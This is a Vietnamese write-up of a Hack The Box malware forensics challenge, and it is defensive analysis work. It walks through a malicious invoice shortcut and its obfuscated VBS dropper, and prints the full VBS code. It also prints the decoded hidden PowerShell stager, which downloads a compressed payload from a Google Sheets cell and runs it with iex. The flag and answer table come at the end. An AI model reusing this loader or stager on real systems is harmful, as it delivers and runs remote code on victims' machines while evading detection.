# Challenge Scripts and Formulas

## 1. Đầu vào challenge

Đầu vào challenge cung cấp **2 file** và **1 folder `logs`**.



---

## 2. What program is being copied, renamed, and what is the final name? (Eg: notepad.exe:picture.jpeg)

Điều đang nghi nhất là file `Invoice_01` là 1 shortcut. Khi mở **Properties** của shortcut thấy `Target` của nó là:

```powershell
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -Nop -sta -noni -w hidden -c cp C:\Windows\System32\cscript.exe .\calc.exe;.\calc.exe Invoice.vbs
```



### Phân tích

Command này chạy ẩn (`hidden`) và copy file:

```text
C:\Windows\System32\cscript.exe
```

thành file:

```text
.\calc.exe
```

Sau đó dùng file `calc.exe` vừa được tạo để chạy `Invoice.vbs`.

**Đáp án là:** `cscript.exe:calc.exe`

---

## 3. What is the name of the function that is used for deobfuscating the strings, in the VBS script? (Eg: funcName)

Với câu hỏi này cần đọc trong file `.vbs`. Chú ý vào hàm:

```text
LLdunAaXwVgKfowf
```



### Phân tích hàm

Hàm `LLdunAaXwVgKfowf()` là hàm **deobfuscate string**. Nó duyệt từng ký tự của chuỗi đầu vào, chỉ giữ lại các ký tự chữ thường không phải số, rồi ghép chúng lại để tạo thành chuỗi thật.

**Đáp án là:** `LLdunAaXwVgKfowf`

---

## 4. What program is used for executing the next stage? (Eg: notepad.exe)

Để xác định chương trình dùng để thực thi next stage, tập trung vào hàm `ZbVxxAHCsiTnKpIJ`. Ở cuối hàm này có thể thấy được chuỗi sẽ được thực thi là `cMtARTHTmbqbxauA`. Vì vậy giờ cần deobfuscate ra 2 chuỗi này là biết được chương trình thực thi.



Tận dụng ngay script này để deobfuscate, chỉ cần bỏ đoạn `objshell.run` đi và thay vào đó là `echo` ra 2 chuỗi kia ngay trong hàm `ZbVxxAHCsiTnKpIJ` là được.

### Script deobfuscate VBS

```vbscript
Function ZbVxxAHCsiTnKpIJ()
    Dim yNSlalZeGAsokjsP
    Dim pJmLeYiULjageWIP
    Dim cMtARTHTmbqbxauA
    Dim bZzPBAGNtCswuUoo
    Dim QlAtSUbRwRFNlEjX

    Dim objShell
    Set objShell = WScript.CreateObject("WScript.Shell")

    yNSlalZeGAsokjsP = LLdunAaXwVgKfowf("BcV:L\XwFiInDdDoXw7s1\9sNy4sIt9eGm") & "32" & LLdunAaXwVgKfowf("V312I\OwFiPnDdJo0wVsDp7oFw7e6r5sBhCeTl1lB\Ev81IU04") & "1.0" & LLdunAaXwVgKfowf("\9pMoBw7eTrMsDhKeVlOl1.WeMxUe")
    cMtARTHTmbqbxauA = yNSlalZeGAsokjsP & " " & LLdunAaXwVgKfowf("EK-MMe4RpHW JIb9FyG7pSZaQ6s56sYB IN-4XwMT OThL2i64dSGdEXe0CnNE 9Q-X6c4V ") & Chr(34) & LLdunAaXwVgKfowf("M0F$BWQuEKRrCBAlAY9 1JQ=65V QTL[KTCsEMKyRE4sTJ3tMY0eQAVmF9E.60Qt7KEeZTUxXD6t0LC.CF9eXAWn5HDcGMSoZOFdT2KiCQ3n0KNgFUN]5YP:3PY:BLLaQ2VsZMUcJAYi4MXiKCX.4I8gY2Ae0YItJYKsU8MtLZ9rMUZiM95nJH4gTDX(HZP[H4RsWZ7yOCKsMX2tNWIe02ZmOH8.BCVcE9SoAXHnP9QvDXJe3CJrD51t2LE]C2L:0M2:I66f616rSKCoFKXmMKAb3X9aGMSsWO4e") & "64" & LLdunAaXwVgKfowf("E1sFUtLBrDIiTXn9NgZG(ED'88") & "aHR0cHM6Ly9zaGVldHMuZ29vZ2xlYXBpcy5jb20vdjQvc3ByZWFkc2hlZXRzLzFIcEI0R3FxWXdJNlg3MXo0cDJFSzg4Rm9KanJzVzJES2JTa3gtcm81bFFRP2tleT1BSXphU3lEVXBqU2Y3UjFsMWRRb2hBNVF2OUVkeVdBM0tCT01jMFUmcmFuZ2VzPVNoZWV0MSFPMzcmaW5jbHVkZUdyaWREYXRhPXRydWU=" & LLdunAaXwVgKfowf("ECK5'1Y)44)UQ;2F$B7rNGe7AsNGpMV J2=QG XBi1BnYNv8So3XkNKe70-CGrO6e54sU8tZ9m6Le6FtI8hX1oTJdXF DD-LGuXMrUKiLC AA$CVuEBrBJl") & LLdunAaXwVgKfowf(";VQI$WN2pV0XaRDAyTQDlB8RoMOWaMQ9d71C I1G=XC1 JBM$XOFrSGBeL3Qs7HNp9ZG.DH0sOC1hQ15e8VNePHVtZ8RsMS5[") & "0" & LLdunAaXwVgKfowf("7010HGS]F6H.JTWdB0Na3CHtT27aW5W[") & "0" & LLdunAaXwVgKfowf("7Z10CS0]V4E.9H0rRO1oHJEw") & "D" & LLdunAaXwVgKfowf("YP7aQTYtE3UaYLX[") & "0" & LLdunAaXwVgKfowf("OPI0J12]JUK.TK7v7J0aRTGl9B2uFO7eV11sOEC[") & "0" & LLdunAaXwVgKfowf("VKB0X4U]VO2.ZMIf4FIoD02r82Mm5NNaNIVt2Z4tH3JeYWLd") & "V" & LLdunAaXwVgKfowf("F2aESlKEuR0e5Y;R4$UAdZIeBIcL5o51dPXeEW CK=4Q LS[M8sYHyE3s82t6YeAXmB2.12cXZo2PnZKvYEeOWrK9tQN]YQ:QQ:RZfK6rJIoQVmRRbBUa6RsHOeUZ") & "64" & LLdunAaXwVgKfowf("6934MPsZAt50rIFiUYn6Sg46(HG$JFpE7aNAyVHlL9oH0aQNdUX)VA;XK$YEmM4s59 87=PT FHnETe61wYM-SYo5Bb6VjHPe3DcHQtET 7SsQ0yIKs6Pt71eBTmJQ.7GiI5oT4.SDmUQeVDmAMoRZrUGyGAsG1tK7rM9ePMaUQmTT;YF$Z1mWTsIZ.5Ww4CrBZi1CtCNeTU(W0$0LdFXe2HcDDoBAd3HeXL,") & "0" & LLdunAaXwVgKfowf("Q8Z,409 12M$S2Zd5JAeVHYc6DNoEOCdEZZeOVB.9RYlTD3eP6HnB29g1VYtHC2hHIN)FND;20Z$KJ5mJZYsFHJ.I28p0VYo48Gs1V9i91DtEPNiLLUoP49n000 DC8=F7S") & "0" & LLdunAaXwVgKfowf("1;2$Fs1rV C=W Dn8e7wB-YoMbAjXeIc4tY SsFyAsItQeNmI.8iQoY.WsGt2rBe5aDm3rReEaBdPeArR(1nCe1wI-RoPbMjNeDcWt6 BsJy7sNt2eEm5.SiZoQ.JcKoMmYp8rWeDs6sZiWoRn0.TdPe8f6lIaYtJeXsBt2rDeHaNmF(3$NmRsO,7 M[AsQyPsKt9e7mR.Hi5oD.WcEoNmDp5rRe8sMsBi4oMn1.8cLoSmQpPrHeIsCsJi2oMnEmHo5dCeA]6:X:IdEeMcRoQmLpGr1eIs4sY)T)F;A$Md7aDtXaM F=B W$OsBrH.CrWeWaVdKtXo2eAnAd1(P)E;K$Gs7r2.2cYlZoVsEeM(O)0;I$Tm0sB.YcHlNoXs6eO(P)0;IWP$TIVd5MUaSLGtSPXa") & "|iex" & Chr(34)

    WScript.Echo "yNSlalZeGAsokjsP = " & yNSlalZeGAsokjsP
    WScript.Echo "cMtARTHTmbqbxauA = " & cMtARTHTmbqbxauA

    Exit Function
End Function

Function LLdunAaXwVgKfowf(t)
    Dim msStr()
    ReDim msStr(Len(t))
    Dim jKaNZCemSwPDrmLT
    jKaNZCemSwPDrmLT = ""
    For i = 1 To UBound(msStr)
        msStr(i) = Mid(t, i, 1)
    Next
    For Each qqEPRvFjIuMSmDvM In msStr
        If qqEPRvFjIuMSmDvM = LCase(qqEPRvFjIuMSmDvM) And Not IsNumeric(qqEPRvFjIuMSmDvM) Then jKaNZCemSwPDrmLT = jKaNZCemSwPDrmLT + qqEPRvFjIuMSmDvM
    Next
    LLdunAaXwVgKfowf = jKaNZCemSwPDrmLT
End Function

Sub Main()
    ZbVxxAHCsiTnKpIJ()
End Sub

Main()
```

### Kết quả thu được

```text
yNSlalZeGAsokjsP = c:\windows\system32\windowspowershell\v1.0\powershell.exe
```

```powershell
cMtARTHTmbqbxauA = c:\windows\system32\windowspowershell\v1.0\powershell.exe -ep bypass -w hidden -c "
    $url = [system.text.encoding]::ascii.getstring(
        [system.convert]::frombase64string('aHR0cHM6Ly9zaGVldHMuZ29vZ2xlYXBpcy5jb20vdjQvc3ByZWFkc2hlZXRzLzFIcEI0R3FxWXdJNlg3MXo0cDJFSzg4Rm9KanJzVzJES2JTa3gtcm81bFFRP2tleT1BSXphU3lEVXBqU2Y3UjFsMWRRb2hBNVF2OUVkeVdBM0tCT01jMFUmcmFuZ2VzPVNoZWV0MSFPMzcmaW5jbHVkZUdyaWREYXRhPXRydWU=')
    );

    $resp = Invoke-RestMethod -Uri $url;
    $payload = $resp.sheets[0].data[0].rowData[0].values[0].formattedValue;
    $decode = [system.convert]::frombase64string($payload);

    $ms = New-Object system.io.memorystream;
    $ms.write($decode, 0, $decode.length);
    $ms.position = 0;

    $sr = New-Object system.io.streamreader(
        New-Object system.io.compression.deflatestream(
            $ms, 
            [system.io.compression.compressionmode]::decompress
        )
    );

    $data = $sr.readtoend();
    $sr.close();
    $ms.close();

    $data | iex
"
```

- `yNSlalZeGAsokjsP` đã được giải ra thành:

```text
c:\windows\system32\windowspowershell\v1.0\powershell.exe
```

- `cMtARTHTmbqbxauA` là toàn bộ command line và nó cũng bắt đầu bằng chính đường dẫn đó.

Vậy chương trình dùng để thực thi next stage là **PowerShell**, tức `powershell.exe`.

**Đáp án là:** `powershell.exe`

---

## 5. What is the Spreadsheet ID the malicious actor downloads the next stage from? (Eg: U3ByZWFkU2hlZXQgSUQK)

Từ đoạn script trên cũng thấy được có 1 chuỗi Base64, thử decode nó ra xem thử thì thu được URL Google Sheets.



Trong đó **Spreadsheet ID** là mã định danh duy nhất của một file Google Sheets.

**Vậy đáp án là:** `1HpB4GqqYwI6X71z4p2EK88FoJjrsW2DKbSkx-ro5lQQ`

---

## 6. What is the Sheet Name and Cell Number that houses the payload? (Eg: Sheet1:A1)

Ngay trong câu hỏi trước ta có thể thấy được luôn **sheet name** và **cell number** của payload.



**Vậy đáp án là:** `Sheet1:O37`

---

## 7. What is the Event ID that relates to Powershell execution? (Eg: 5991)

Với câu hỏi này thì cần phải xem log từ các file `.evtx` liên quan tới PowerShell, có 4 file chính.



Mở thử từng file và thấy được chỉ có 2 file là `Windows PowerShell.evtx` và `Microsoft-Windows-PowerShell%4Operational.evtx` có nội dung.



Trong đó file `Microsoft-Windows-PowerShell%4Operational.evtx` có nội dung chi tiết command PowerShell hoạt động và giống với script đã deobfuscate ra.

Trong khi `Windows PowerShell.evtx` là log tổng quát, chủ yếu giúp xác nhận PowerShell đã được chạy và hỗ trợ dựng timeline.



**Vậy kết quả là:** `4104`

---

## 8. In the final payload, what is the XOR Key used to decrypt the shellcode? (Eg: 1337)

Từ `Microsoft-Windows-PowerShell%4Operational.evtx` đọc trong payload thì thấy được `keyxor` là `35`.



**Vậy đáp án là:** `35`

---

## 9. Flag

Cuối cùng thu được flag là:

```text
HTB{GSH33ts_4nd_str4ng3_f0rmula3_1s_4_g00d_w4y_f0r_byp4ss1ng_f1r3w4lls!!}
```



---

## 10. Bảng câu hỏi và đáp án

| Câu hỏi | Đáp án |
|---|---|
| What program is being copied, renamed, and what is the final name? | `cscript.exe:calc.exe` |
| What is the name of the function that is used for deobfuscating the strings, in the VBS script? | `LLdunAaXwVgKfowf` |
| What program is used for executing the next stage? | `powershell.exe` |
| What is the Spreadsheet ID the malicious actor downloads the next stage from? | `1HpB4GqqYwI6X71z4p2EK88FoJjrsW2DKbSkx-ro5lQQ` |
| What is the Sheet Name and Cell Number that houses the payload? | `Sheet1:O37` |
| What is the Event ID that relates to Powershell execution? | `4104` |
| In the final payload, what is the XOR Key used to decrypt the shellcode? | `35` |
---